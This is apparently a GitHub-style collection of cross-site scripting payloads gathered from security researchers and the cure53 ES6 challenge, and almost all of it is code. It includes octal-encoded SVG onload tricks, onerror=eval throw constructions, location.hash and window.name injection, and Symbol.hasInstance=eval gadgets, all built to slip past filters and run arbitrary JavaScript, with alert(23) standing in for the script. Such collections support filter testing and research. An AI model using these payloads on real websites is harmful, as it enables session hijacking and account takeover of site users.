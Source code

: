 xss.html

    document.write`${top.name}`
    
---

[Brute Logic](https://twitter.com/BRuteLogic/status/1754443215636189352)

    <JavaScript:"\74Svg\57OnLoad\75\141\154\145\162\164\501\51\76"/ContentEditable/AutoFocus/OnFocus=location=tagName>

---

[mage_1868 ](https://github.com/cure53/XSSChallengeWiki/wiki/ES6-Challenge)

    location="https://example.com/xss.html/.source;alert(23)?xss="
    
example.com

    eval.call`${location.pathname}`
    
---

Only Firefox [Garethheyes](https://twitter.com/garethheyes/status/1126922526796468224)
          
    {onerror=eval}throw{lineNumber:1,columnNumber:1,fileName:'',message:'alert\x2823\x29'}
---

[ycam](https://twitter.com/ycam_asafety/status/1126976315666706433)

```
example.com/xss#*/;alert(23);
```
```
throw/**/onerror=Uncaught=eval,e={lineNumber:1,columnNumber:1,fileName:'',message:'/*'+location.hash},typeof/**/InstallTrigger!='undefined'?e:e.message
```
---
[cgvwzq](https://twitter.com/cgvwzq/status/1126994744268267527)

[https://demo.vwzq.net/lol.html](https://demo.vwzq.net/lol.html)

```
<script/id=Uncaught>

// chrome + firefox

throw[onerror=eval][e=[x='+alert\x2823\x29']]=0[e.lineNumber=e.columnNumber=e.fileName=e.message=x]=e

</script>

<script>

// firefox

onhashchange=setTimeout,HashChangeEvent.prototype[Symbol.toStringTag]='+alert\x2823\x29',location.hash=1

</script>

<script>

// chrome + firefox

Array.prototype[Symbol.hasInstance]=eval,'alert\x2823\x29'instanceof[]

</script>

<script>

```